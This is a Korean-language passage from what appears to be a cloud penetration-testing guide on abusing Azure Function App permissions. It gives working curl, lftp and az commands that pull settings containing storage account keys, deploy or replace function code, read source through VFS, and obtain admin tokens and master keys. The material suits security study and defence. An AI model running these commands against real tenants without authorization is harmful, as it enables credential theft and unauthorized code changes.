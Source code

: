 그런 다음, **기본 인증 자격 증명으로 SCM URL**에 접근하여 환경 변수의 값을 가져올 수 있습니다:
```bash
# Get settings values
curl -u '<username>:<password>' \
https://<app-name>.scm.azurewebsites.net/api/settings -v

# Deploy code to the funciton
zip function_app.zip function_app.py # Your code in function_app.py
curl -u '<username>:<password>' -X POST --data-binary "@<zip_file_path>" \
https://<app-name>.scm.azurewebsites.net/api/zipdeploy
```
_**SCM 사용자 이름**은 일반적으로 문자 "$" 다음에 앱 이름이 오므로: `$<app-name>`입니다._

웹 페이지에 `https://<app-name>.scm.azurewebsites.net/BasicAuth`에서 접근할 수 있습니다.

설정 값에는 함수 앱의 데이터를 저장하는 스토리지 계정의 **AccountKey**가 포함되어 있어 해당 스토리지 계정을 제어할 수 있습니다.

- **방법 FTP**

다음과 같이 FTP 서버에 연결합니다:
```bash
# macOS install lftp
brew install lftp

# Connect using lftp
lftp -u '<username>','<password>' \
ftps://waws-prod-yq1-005dr.ftp.azurewebsites.windows.net/site/wwwroot/

# Some commands
ls # List
get ./function_app.py -o /tmp/ # Download function_app.py in /tmp
put /tmp/function_app.py -o /site/wwwroot/function_app.py # Upload file and deploy it
```
_참고: **FTP 사용자 이름**은 일반적으로 \<app-name>\\$\<app-name> 형식입니다._

### `Microsoft.Web/sites/hostruntime/vfs/read`

이 권한은 VFS를 통해 **앱의 소스 코드를 읽을 수** 있게 합니다:
```bash
az rest --url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/sites/<app-name>/hostruntime/admin/vfs/function_app.py?relativePath=1&api-version=2022-03-01"
```
### `Microsoft.Web/sites/functions/token/action`

이 권한을 사용하면 [**관리자 토큰**](https://learn.microsoft.com/ca-es/rest/api/appservice/web-apps/get-functions-admin-token?view=rest-appservice-2024-04-01)을 가져올 수 있으며, 이 토큰은 나중에 **마스터 키**를 검색하는 데 사용될 수 있으며, 따라서 함수의 코드를 액세스하고 수정할 수 있습니다.

그러나 최근 확인한 결과 토큰이 반환되지 않았으므로 비활성화되었거나 더 이상 작동하지 않을 수 있지만, 다음은 이를 수행하는 방법입니다:
```bash
# Get admin token
az rest --method GET \
--url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Web/sites/<app-name>/functions/admin/token?api-version=2024-04-01"

# Get master key
curl "https://<app-name>.azurewebsites.net/admin/host/systemkeys/_master" \
-H "Authorization: Bearer <token>"
```
### `Microsoft.Web/sites/config/write`, (`Microsoft.Web/sites/functions/properties/read`)
